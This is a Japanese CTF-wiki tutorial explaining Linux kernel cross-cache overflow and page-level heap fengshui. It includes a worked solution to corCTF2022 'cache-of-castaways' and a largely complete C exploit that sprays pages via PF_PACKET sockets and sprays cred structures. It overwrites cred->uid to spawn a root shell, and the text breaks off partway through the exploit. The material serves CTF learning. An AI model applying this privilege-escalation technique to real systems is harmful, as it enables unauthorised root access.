



# Cross-Cache Overflow & Page-level Heap Fengshui

> 注:これは 2 つを組み合わせた攻撃手法です。

## Cross-Cache Overflow

これまで slub allocator に注目してきたさまざまな攻撃手法とは異なり、**Cross-Cache Overflow** は実際には **buddy system を狙った**攻撃手法で、主に次の考え方に基づいています。

- slub allocator の内部の仕組みは、buddy system にページを要求し、それを特定のサイズの object に分割して上位の呼び出し元に返すというものです。
  - 異なる `kmem_cache` に使われているページが、メモリ上で隣り合う可能性があります。
- 脆弱性のあるオブジェクトがページ A にあり、溢れさせたい対象のオブジェクトがページ B にあって、A と B が隣接していれば、異なる `kmem_cache` をまたぐヒープオーバーフローを実現できる可能性があります。



**Cross-Cache Overflow は異なる kmem\_cache 間の壁を破り、オーバーフローの脆弱性でほぼ任意のカーネル構造体を上書きできるようにします。**

ただし、これには非常に厳密なページレベルのヒープ配置が必要です。カーネルのヒープのページ配置は通常、私たちには未知なので、これを既知のメモリ配置に変える方法を考える必要があります。そこで必要になるのが**ページレベルのヒープ風水**です。

## Page-level Heap Fengshui

その名のとおり、**ページレベルのヒープ風水**とは、メモリページを粒度としてメモリを配置する方法です。カーネルのメモリページの配置は私たちにとって未知であるうえ情報量も膨大なので、この攻撃手法は実際には、**新たな既知のページ粒度のメモリページ配置を手作業で構築する**ものです。

まず、slub allocator が buddy system にページを要求する過程をあらためて見てみましょう。freelist page を使い果たし、partial リストも空のとき(または `kmem_cache` を作成した直後の最初の確保のとき)、buddy system にページを要求します。



次に buddy system をあらためて見てみましょう。基本原理は、2 の order 乗枚のメモリページを確保の粒度とし、同じ order の空きページが双方向リストを構成するというものです。低い order のページが足りなくなると、高い order から連続したメモリページを 1 つ取り出して半分に分割し、一方を現在要求された order のリストに戻し、もう一方を上位の呼び出し元に返します。下の図は order 2 を例にした buddy system のページ確保の基本原理です。



より高い order から分割された、低い order の 2 つの連続したメモリページは**物理的に連続している**ことが、容易に思いつきます。これを利用すると、次のことができます。

- buddy system に連続した 2 つのメモリページを要求する。
- そのうち 1 つを解放し、`vulnerable kmem_cache` でヒープスプレーして、このメモリページを取らせる。
- もう 1 つを解放し、`victim kmem_cache` でヒープスプレーして、このメモリページを取らせる。

**こうすると、ほかのカーネル構造体にオーバーフローさせて、cross-cache overflow を成立させられる可能性があります。**

### setsockopt と pgv によるページレベルのメモリ占有とヒープ風水

では、このようなページの占有と配置はどうすれば実現できるでしょうか。筆者はここで、[CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html) の方法を紹介します。

protocol が `PF_PACKET` の socket を作成したあと、まず `setsockopt()` で `PACKET_VERSION` を `TPACKET_V1 `/ `TPACKET_V2` に設定し、さらに `setsockopt()` で `PACKET_TX_RING` を送ると、次の呼び出しチェーンが発生します。

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

`alloc_pg_vec()` では `pgv` 構造体が作られ、`tp_block_nr` 個の 2<sup>order</sup> 枚のメモリページを確保します。`order` は `tp_block_size` で決まります。

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

`alloc_one_pg_vec_page()` では `__get_free_pages()` が直接呼ばれ、buddy system にメモリページを要求します。そのため、この関数を使って大量のページを要求できます。

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

対応して、`pgv` 内のページは socket が閉じられると解放されます。

```c
packet_release()
    packet_set_ring()
    	free_pg_vec()
```

`setsockopt()` は**ページレベルのヒープ風水**にも使えます。buddy system 中の low order pages を使い果たしたあとに要求するページは、すべて物理的に連続したものになります。そのため、このとき `setsockopt()` を行うことは**ほぼ物理的に連続したメモリを得ることに相当します**(「ほぼ連続」というのは、大量の `setsockopt()` の処理中に、不要な構造体も大量に確保され、buddy system のページの一部が消費されるためです)。

## 例題:corCTF2022 - cache-of-castaways

> [公式 writeup はこちら](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)

問題の添付ファイルは [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/corCTF2022-cache-of-castaways](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/corCTF2022-cache-of-castaways) からダウンロードできます。

### 問題の解析

問題ファイルには `kconfig` まで入っていて、筆者は非常に感動しました。

```shell
$ tree .
.
├── bzImage
├── initramfs.cpio.gz
├── kconfig
└── run

0 directories, 4 files
```

起動スクリプトは見るまでもなく、SMEP、SMAP、KPTI が有効だとわかります(カーネル問題ではほぼ標準装備です)。

```bash
#!/bin/sh

exec qemu-system-x86_64 \
    -m 4096M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -netdev user,id=net \
    -device e1000,netdev=net \
    -no-reboot \
    -monitor /dev/null \
    -cpu qemu64,+smep,+smap \
    -initrd initramfs.cpio.gz \
```

起動スクリプトで `cache_of_castaway.ko` という LKM をロードしています。いつものように IDA に入れると、モジュールの初期化時にデバイスを登録し、`kmem_cache` を 1 つ作成しています。確保される object のサイズは `512`、作成フラグは `SLAB_ACCOUNT | SLAB_PANIC` で、同時に `CONFIG_MEMCG_KMEM=y` が有効なため、これは**独立した kmem\_cache** であることを意味します。

```c
__int64 init_module()
{
  __int64 result; // rax

  castaway_dev = 255;
  qword_8A8 = (__int64)"castaway";
  qword_8B0 = (__int64)&castaway_fops;
  _mutex_init(&castaway_lock, "&castaway_lock", &_key_28999);
  if ( !(unsigned int)misc_register(&castaway_dev)
    && (castaway_arr = kmem_cache_alloc(kmalloc_caches[12], 3520LL)) != 0
    && (castaway_cachep = kmem_cache_create("castaway_cache", 0x200LL, 1LL, 0x4040000LL, 0LL)) != 0 )
  {
    result = init_castaway_driver_cold();
  }
  else
  {
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

デバイスは ioctl を 1 つだけ定義しており、その中にヒープブロックの確保と編集の機能があって、どちらもロックされています。確保できる object は最大 400 個で、解放機能はありません。

```c
__int64 __fastcall castaway_ioctl(__int64 a1, int a2, __int64 a3)
{
  __int64 v3; // r12
  _QWORD *v5; // rbx
  unsigned __int64 v6[6]; // [rsp+0h] [rbp-30h] BYREF

  v6[3] = __readgsqword(0x28u);
  if ( a2 != 0xCAFEBABE )
  {
    if ( copy_from_user(v6, a3, 24LL) )
      return -1LL;
    mutex_lock(&castaway_lock);
    if ( a2 == 0xF00DBABE )
      v3 = castaway_edit(v6[0], v6[1], v6[2]);
    else
      v3 = -1LL;
LABEL_5:
    mutex_unlock(&castaway_lock);
    return v3;
  }
  mutex_lock(&castaway_lock);
  v3 = castaway_ctr;
  if ( castaway_ctr <= 399 )
  {
    ++castaway_ctr;
    v5 = (_QWORD *)(castaway_arr + 8 * v3);
    *v5 = kmem_cache_alloc(castaway_cachep, 0x400DC0LL);
    if ( *(_QWORD *)(castaway_arr + 8 * v3) )
      goto LABEL_5;
  }
  return ((__int64 (*)(void))castaway_ioctl_cold)();
}
```

脆弱性はヒープブロックを編集する `castaway_edit()` にあります。データをコピーするとき、わざと `object + 6` の位置からコピーするため、6 バイトのオーバーフローが存在します。ここでは、いったんカーネルスタックにコピーしてからカーネル空間内でコピーしているため、`hardened usercopy` のチェックは発動しません。

```c
__int64 __fastcall castaway_edit(unsigned __int64 a1, size_t a2, __int64 a3)
{
  char src[512]; // [rsp+0h] [rbp-220h] BYREF
  unsigned __int64 v6; // [rsp+200h] [rbp-20h]

  v6 = __readgsqword(0x28u);
  if ( a1 > 0x18F )
    return castaway_edit_cold();
  if ( !*(_QWORD *)(castaway_arr + 8 * a1) )
    return castaway_edit_cold();
  if ( a2 > 0x200 )
    return castaway_edit_cold();
  _check_object_size(src, a2, 0LL);
  if ( copy_from_user(src, a3, a2) )
    return castaway_edit_cold();
  memcpy((void *)(*(_QWORD *)(castaway_arr + 8 * a1) + 6LL), src, a2);
  return a2;
}
```

ヒープブロックを編集するときは、カーネルに次の構造体を渡す必要があります。

```c
struct request {
    int64_t index;
    size_t	size;
    void 	*buf;
};
```

### 脆弱性の悪用

#### Step.I - cross-cache overflow

脆弱性のあるオブジェクトは独立した `kmem_cache` にあるため、カーネル内のほかの一般的な構造体の確保とは混ざりません。slub 層でのヒープスプレー + ヒープ風水によってほかの構造体にオーバーフローさせて次のステップに進むことは、直接はできません。また、slub は glibc の ptmalloc2 のように各 object の先頭にデータを格納する header を持たず、next ポインタをランダムな位置に置くため、次の object の next フィールドに直接オーバーフローさせるのは困難です。hardened freelist があるので、隣り合う次の object の next フィールドまでオーバーフローさせられたとしても、有効なポインタを作ることはできません。さらに、slub のページに隣接するページ上のデータも私たちには未知で、直接オーバーフローさせても、どのようなページに溢れるのかわかりません :(

では本当に何も方法がないのでしょうか。答えはもちろん「ある」です。もう一度 slub allocator に目を向けてみましょう。freelist page を使い果たし、partial リストも空のとき(または `kmem_cache` を作成した直後の最初の確保のとき)、buddy system にページを要求します。


buddy system の基本原理は、2 の order 乗枚のメモリページを確保の粒度とし、同じ order の空きページが双方向リストを構成するというものです。低い order のページが足りなくなると、高い order から連続したメモリページを 1 つ取り出して半分に分割し、一方を現在要求された order のリストに戻し、もう一方を上位の呼び出し元に返します。下の図は order 2 を例にした buddy system のページ確保の基本原理です。


より高い order から分割された、低い order の 2 つの連続したメモリページは**物理的に連続している**ことが、容易に思いつきます。そのうち 1 つが私たちの `kmem_cache` に取られ、もう 1 つがほかのカーネル構造体を確保する `kmem_cache` に取られれば、**ほかのカーネル構造体にオーバーフローさせられる可能性があります**。これが **`cross-cache overflow`** です。

具体的なオーバーフロー対象も考えにくくありません。6 バイトあれば `cred` 構造体の `uid` フィールドまでちょうど溢れさせられ、権限昇格が完了します。では、権限を昇格させたいプロセスの cred 構造体にどうやってオーバーフローさせるのでしょうか。まず fork() で cred をヒープスプレーして `cred_jar` 中の object を使い果たし、buddy system に新しいページを要求させればよいのです。さらに、先にヒープスプレーで buddy system にもともとあるページを消費しておく必要があります。そのあとで cred と問題の object を確保すれば、両者は高い確率で隣り合います。

`cred` のサイズは `192` で、`cred_jar` が buddy system に 1 回で要求するページ数は 1 です。これで cred を 21 個確保できるため、`cred_jar` を使い果たすのに `cred` を大量にスプレーする必要はありません。ただし、`fork()` は実行中に多くの「ノイズ」(つまり、不要な構造体が余分に確保されてページ配置に影響すること)を発生させるため、ここでは代わりに `clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND)` を使います。

> 「ノイズ」の問題については [bsauce 氏のブログ](https://bsauce.github.io/2022/11/07/castaways/#2-3-fork%E5%99%AA%E5%A3%B0%E9%97%AE%E9%A2%98)を参照してください。筆者は `fork()` 関連のソースを深くは読んでいません。

slub pages は解放されても、すぐには buddy system に返されません。そのため、**buddy system にページを要求する API を直接呼び出す構造**を探すのが望ましいです。ここで筆者は、公式 writeup で参照されている、D3v17 が [CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html) で使った、`setsockopt()` によるページスプレーの方法に倣います。protocol が `PF_PACKET` の socket を作成したあと、まず `setsockopt()` で `PACKET_VERSION` を `TPACKET_V1 `/ `TPACKET_V2` に設定し、さらに `setsockopt()` で `PACKET_TX_RING` を送ると、次の呼び出しチェーンが発生します。

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

`alloc_pg_vec()` では `pgv` 構造体が作られ、`tp_block_nr` 個の 2<sup>order</sup> 枚のメモリページを確保します。`order` は `tp_block_size` で決まります。

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

`alloc_one_pg_vec_page()` では `__get_free_pages()` が直接呼ばれ、buddy system にメモリページを要求します。そのため、この関数を使って大量のページを要求できます。

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

`pgv` 内のページは socket が閉じられると解放されます。これは後のページレベルのヒープ風水にも好都合です。ただし、低権限のユーザーはこの関数を使えないことに注意が必要です。これは新しい名前空間を作ることで回避できます。

ここで注意すべきなのは、**権限を昇格させるプロセスは、ページスプレーを行うプロセスと同じ名前空間にいてはならない**ということです。後者は新しい名前空間を作る必要があり、一方で権限昇格は元の名前空間で行う必要があります。そこで筆者は、新しいプロセスを起動してページスプレーを行い、パイプでメインプロセスとスプレー用プロセスの間で通信します。

#### Step.II - page-level heap fengshui

`setsockopt()` は**ページレベルのヒープ風水**にも使えます。buddy system 中の low order pages を使い果たしたあとに要求するページは、すべて物理的に連続したものになります。そのため、このとき `setsockopt()` を行うことは**ほぼ物理的に連続したメモリを得ることに相当します**(「ほぼ連続」というのは、大量の `setsockopt()` の処理中に、不要な構造体も大量に確保され、buddy system のページの一部が消費されるためです)。

この問題の環境では、問題の `kmem_cache` は 1 回につき buddy system に 1 枚のメモリページを要求します。buddy system は LIFO に従うので、次のことができます。

- まず大量の単一メモリページを確保し、buddy 中の low-order pages を使い果たす。
- 1 枚おきに単一メモリページの一部を解放し、そのあと cred をヒープスプレーする。これにより、解放した単一メモリページを取得できる可能性がある。
- 先ほど 1 枚おきに空けておいたメモリページを解放し、脆弱性のある関数を呼び出してヒープブロックを確保する。これにより、解放した、間を空けていたメモリページを取得できる可能性がある。
- モジュールの脆弱性を使って境界外書き込みを行い、`cred->uid` を改ざんして権限昇格を完了する。

子プロセスは、自身の uid が root になるのをポーリングで待つ必要がありますが、このやり方はあまりエレガントではありません :) 。そこで筆者は、新しいパイプでメインプロセスと子プロセスの間で通信します。子プロセスがパイプから 1 バイト読み出したら、権限昇格に成功したかどうかを確認し始め、昇格していなければそのまま sleep します。

### EXPLOIT

最終的な exp は次のとおりです。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sched.h>
#include <time.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>

#define PGV_PAGE_NUM 1000
#define PGV_CRED_START (PGV_PAGE_NUM / 2)
#define CRED_SPRAY_NUM 514

#define PACKET_VERSION 10
#define PACKET_TX_RING 13

#define VUL_OBJ_NUM 400
#define VUL_OBJ_SIZE 512
#define VUL_OBJ_PER_SLUB 8
#define VUL_OBJ_SLUB_NUM (VUL_OBJ_NUM / VUL_OBJ_PER_SLUB)

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct page_request {
    int idx;
    int cmd;
};

enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

struct timespec timer = {
    .tv_sec = 1145141919,
    .tv_nsec = 0,
};

int dev_fd;
int cmd_pipe_req[2], cmd_pipe_reply[2], check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = { bin_sh_str, NULL };
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);
    exit(EXIT_FAILURE);
}

void alloc(void)
{
    ioctl(dev_fd, 0xCAFEBABE);
}

void edit(int64_t index, size_t size, void *buf)
{
    struct castaway_request r = {
        .index = index,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xF00DBABE, &r);
}

int waiting_for_root_fn(void *args)
{
    /* we're using the same stack for them, so we need to avoid cracking it.. */
    __asm__ volatile (
        "   lea rax, [check_root_pipe]; "
        "   xor rdi, rdi; "
        "   mov edi, dword ptr [rax]; "
        "   mov rsi, child_pipe_buf; "
        "   mov rdx, 1;   "
        "   xor rax, rax; " /* read(check_root_pipe[0], child_pipe_buf, 1)*/
        "   syscall;      "
        "   mov rax, 102; " /* getuid() */
        "   syscall; "
        "   cmp rax, 0; "
        "   jne failed; "
        "   mov rdi, 1; "
        "   lea rsi, [root_str]; "
        "   mov rdx, 80; "
        "   mov rax, 1;"    /* write(1, root_str, 71) */
        "   syscall; "
        "   lea rdi, [bin_sh_str];  "
        "   lea rsi, [shell_args];  "
        "   xor rdx, rdx;   "
        "   mov rax, 59;    "
        "   syscall;        "   /* execve("/bin/sh", args, NULL) */
        "failed: "
        "   lea rdi, [timer]; "
        "   xor rsi, rsi; "
        "   mov rax, 35; "  /* nanosleep() */
        "   syscall; "
    );

    return 0;
}

void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

__attribute__((naked)) long simple_clone(int flags, int (*fn)(void *))
{
    /* for syscall, it's clone(flags, stack, ...) */
    __asm__ volatile (
        " mov r15, rsi; "   /* save the rsi*/
        " xor rsi, rsi; "   /* set esp and useless args to NULL */
        " xor rdx, rdx; "
        " xor r10, r10; "
        " xor r8, r8;   "
        " xor r9, r9;   "
        " mov rax, 56;  "   /* __NR_clone */
        " syscall;      "
        " cmp rax, 0;   "
        " je child_fn;  "
        " ret;          "   /* parent */
        "child_fn:      "
        " jmp r15;      "   /* child */
    );
}

int alloc_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int free_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

void spray_cmd_handler(void)
{
    struct page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(0x1000, 1);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

int main(int aragc, char **argv, char **envp)
{
    cpu_set_t cpu_set;
    char th_stack[0x1000], buf[0x1000];

    /* to run the exp on the specific core only */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open castaway device!");
    }

    /* use a new process for page spraying */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    if (!fork()) {
        spray_cmd_handler();
        exit(EXIT_SUCCESS);
    }

    /* make buddy's lower order clean, castaway_requesting from higher */
    puts("[*] spraying pgv pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i++) {
        if(alloc_page(i) < 0) {
            printf("[x] failed at no.%d socket\n", i);
            err_exit("FAILED to spray pages via socket!");
        }
    }

    /* free pages for cred */
    puts("[*] freeing for cred pages...");
    for (int i = 1; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray cred to get the isolate pages we released before */
    puts("[*] spraying cred...");
    pipe(check_root_pipe);
    for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, 
                         waiting_for_root_fn) < 0){
            printf("[x] failed at cloning %d child\n", i);
            err_exit("FAILED to clone()!");
        }
    }

    /* free pages for our vulerable objects */
    puts("[*] freeing for vulnerable pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray vulnerable objects, hope that we can make an oob-write to cred */
    puts("[*] trigerring vulnerability in castaway kernel module...");
    memset(buf, '\0', 0x1000);
    *(uint32_t*) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
